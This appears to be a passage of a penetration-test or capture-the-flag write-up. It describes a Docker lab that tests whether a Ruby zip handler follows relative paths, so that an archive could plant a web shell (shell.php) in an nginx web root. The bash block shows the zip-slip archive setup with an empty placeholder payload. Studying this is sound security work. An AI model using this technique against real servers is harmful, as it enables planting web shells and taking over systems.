 
## Testing
Used ubuntu docker, the likely victim machine. Created a sample zip file using relative file paths (../var/www/html) to attempt tp plant web shell in the nginx web root. Required additonal flags to unzip, `unzip -:` to make it respect relative paths. This would need to be tested in the ruby app.

Sample ruby app mirroring the zip handler seen in the leaked source code to build to test its handling of relative zip file paths (`temp.rb`). In testing, it was found to respect relative paths.

```bash
# setup env
docker run -it --rm -v $(pwd):/tmp ubuntu bash
apt update
apt install nginx ruby zip -y
/usr/sbin/nginx

# setup malicious zip file, payload is not important now
cd /tmp
touch /var/www/html/shell.php
zip images.zip .../var/www/html/shell.php

# install ruby reqts
gem install zip rubyzip

# run the test app
ruby temp.rb
```

